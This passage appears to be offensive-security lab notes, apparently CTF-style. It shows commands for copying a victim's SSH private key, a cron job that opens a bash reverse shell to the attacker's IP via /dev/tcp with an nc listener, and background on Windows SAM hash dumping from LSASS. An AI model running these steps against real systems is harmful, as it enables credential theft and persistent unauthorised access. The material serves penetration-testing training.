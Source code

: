 ```bash
# copy the victim private key into local
root@attack> scp student@192.59.82.3:~/.ssh/id_rsa .
root@attack> chmod 400 id_rsa
root@attack> ssh student@192.59.82.3
student@victim> rm /home/student/wait
# get kicked out
root@attack> ssh student@192.59.82.3
student@victim> cat /home/student/flag.txt
```

#### Cron jobs

* Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule.
* An application, or script that has been configured to be run repeatedly with Cron is know as a Cron job.
* We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system.

```bash
root@attacker> ssh student@192.246.71.3  # student:password
student@victim> echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.246.71.2/1234 0>&1'" > cron
student@victim> crontab -i cron
student@victim> crontab -l
student@victim> rm wait
root@attacker> nc -lnvp 1234
# wait max 1 minute
student@victim> cat flag.txt
```

### Dumping & cracking Windows hashes

#### Definition

* The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
* Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
* Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA).
* Windows versions up to Windows Server 2003 utilize two differents types of hashes :
  * LM
  * NTLM
* Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

#### SAM database

* SAM is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
* The SAM database file cannot be copied while the OS is running.
* The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
* In modern versions of Windows, the SAM database is encrypted with a syskey.
